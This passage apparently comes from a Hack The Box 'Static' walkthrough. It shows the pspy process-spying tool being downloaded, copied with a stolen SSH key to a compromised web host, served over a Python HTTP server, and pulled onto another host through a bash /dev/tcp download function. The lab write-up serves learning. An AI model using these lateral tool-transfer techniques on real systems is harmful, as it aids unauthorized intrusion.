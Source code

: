 ```sh
┌──(root💀kali)-[~/htb/static]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
--2021-11-06 21:03:26--  https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64            100%[===============================================>]   2.94M  16.7MB/s    in 0.2s    
2021-11-06 21:03:27 (16.7 MB/s) - ‘pspy64’ saved [3078592/3078592]

┌──(root💀kali)-[~/htb/static]
└─# scp -P 2222 -i id_rsa pspy64 www-data@10.10.10.246:/tmp 
pspy64                         100% 3006KB   2.3MB/s   00:01
```

With the file on the web box we need to start our web server to be able to get to it from the pki box:

```text
www-data@web:/tmp$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Bash Wget Alternative

Now we need to pull pspy64 across to the pki box which isn't easy as it hasn't got nc, wget, curl or anything else useful. Searching there's lots of examples of how to use echo, exec, sed and others that are available to us like [this](https://www.shell-tips.com/bash/download-files-from-shell) one, [this](https://superuser.com/questions/40545/upgrading-and-installing-packages-through-the-cygwin-command-line/496572#496572) one or [this](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et) one.

Just copy one of the examples and paste in to your shell on the pki server:

```shxt
function _get() {
    read proto server path <<<$(echo ${1//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    (while read line; do
        [[ "$line" == $'\r' ]] && break
    done && cat) <&3
    exec 3>&-
}
```
